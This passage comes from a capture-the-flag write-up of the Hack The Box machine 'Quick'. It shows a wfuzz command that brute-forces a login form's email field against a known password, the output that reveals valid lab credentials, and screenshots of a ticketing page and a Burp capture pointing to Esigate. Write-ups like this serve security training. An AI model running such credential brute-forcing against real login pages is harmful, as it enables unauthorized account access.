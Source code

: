 Used `wfuzz` to bruteforce the login.

```nix
root@kali:~/CTF/HTB/Boxes/Quick# wfuzz -X POST -u 'http://quick.htb:9001/login.php' -d 'email=FUZZ&password=Quick4cc3$$' -w email.txt --hc 200 -c

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://quick.htb:9001/login.php
Total requests: 8

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                      
===================================================================

000000005:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"                                                                                                                                                           

Total time: 1.510479
Processed Requests: 8
Filtered Requests: 7
Requests/sec.: 5.296331
```

So I logged in with the credentials we found `elisa@wink.co.uk: Quick4cc3$$`

![Untitled](/img/htb-quick/Untitled%206.png)

`/ticket.php` I submitted a test ticket to see what happens

![Untitled](/img/htb-quick/Untitled%207.png)

It provides me a Ticket Number

![Untitled](/img/htb-quick/Untitled%208.png)

So we can also track our tickets in the `home.php`. I decided to check whats happening internally.

![Untitled](/img/htb-quick/Untitled%209.png)

Captured the ticket submitting in burp.

![Untitled](/img/htb-quick/Untitled%2010.png)

The response header seems interesting. It is Powered-By `Esigate`
